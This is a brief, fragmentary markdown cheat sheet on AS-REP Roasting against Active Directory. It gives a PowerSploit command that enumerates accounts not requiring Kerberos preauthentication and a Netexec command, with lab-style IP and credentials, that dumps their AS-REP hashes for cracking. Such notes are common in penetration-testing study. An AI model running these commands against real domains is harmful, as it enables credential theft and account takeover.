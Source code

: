 # AS-REP Roasting
## Summary
AS-REP
## Attack Requirements
Notes
## Enumeration Methods
### PowerSploit
```
Get-Domainuser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH"}
```
## Attack Overview
Using Rubeus
## Tools
- Rubeus
- Netexec


### Netexec
```
nxc ldap 10.0.2.15 -u fcastle -p Password1 --asreproast nxc-aspreproast-output.log
```
